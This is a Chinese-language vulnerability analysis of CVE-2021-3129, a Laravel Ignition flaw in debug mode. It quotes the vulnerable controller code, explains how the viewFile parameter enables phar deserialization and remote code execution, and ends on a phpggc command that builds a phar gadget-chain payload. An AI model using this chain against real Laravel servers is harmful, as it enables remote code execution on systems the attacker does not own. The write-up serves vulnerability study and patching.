

## 0x01漏洞信息

https://nvd.nist.gov/vuln/detail/cve-2021-3129

当Laravel开启了Debug模式时，由于Laravel自带的Ignition 组件对file_get_contents()和file_put_contents()函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意Log文件等方式触发Phar反序列化，最终造成远程代码执行。

## 0x02版本限制

Laravel 及其他产品中使用的 Ignition 2.5.2 之前的版本

## 0x03漏洞分析

首先我们到执行solution的控制器ExecuteSolutionController.php里面中去看看是如何调用solution的

```php
<?php

namespace Facade\Ignition\Http\Controllers;

use Facade\Ignition\Http\Requests\ExecuteSolutionRequest;
use Facade\IgnitionContracts\SolutionProviderRepository;
use Illuminate\Foundation\Validation\ValidatesRequests;

class ExecuteSolutionController
{
    use ValidatesRequests;

    public function __invoke(
        ExecuteSolutionRequest $request,
        SolutionProviderRepository $solutionProviderRepository
    ) {
        $solution = $request->getRunnableSolution();

        $solution->run($request->get('parameters', []));

        return response('');
    }
}

```

先是通过getRunnableSolution()的调用去获取到solution明，然后调用solution对象中的run方法，并将获取到的可控的parameters参数传递过去，利用这个点我们可以调用MakeViewVariableOptionalSolutio::run()方法

跟进MakeViewVariableOptionalSolution中的run()方法

```php
    public function run(array $parameters = [])
    {
        $output = $this->makeOptional($parameters);
        if ($output !== false) {
            file_put_contents($parameters['viewFile'], $output);
        }
    }
```

这里的话有一个file_put_contents()方法，文件名取决于我们传递的参数parameters数组中viewFile的值。但是前面还调用了一个makeOptional方法



这里可以看到，在makeOptional()方法中会将$parameters中viewFile指向的文件中的`$variableName`换成`$variableName??`，之后并写回文件中，但是这里其实没啥作用，不影响我们的调用。

由于这里调用了`file_get_contents()`，且其中的参数可控，所以这里可以通过`phar://`协议去触发phar反序列化。如果后期利用框架进行开发的人员写出了一个文件上传的功能，那么我们就可以上传一个恶意phar文件，利用上述的`file_get_contents()`去触发phar反序列化，达到RCE的效果。

## 0x04漏洞复现

可以直接从phpggc中拿一条laravel中存在的拓展的链子

https://github.com/ambionics/phpggc

```sh
php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o /tmp/phar.gif
```
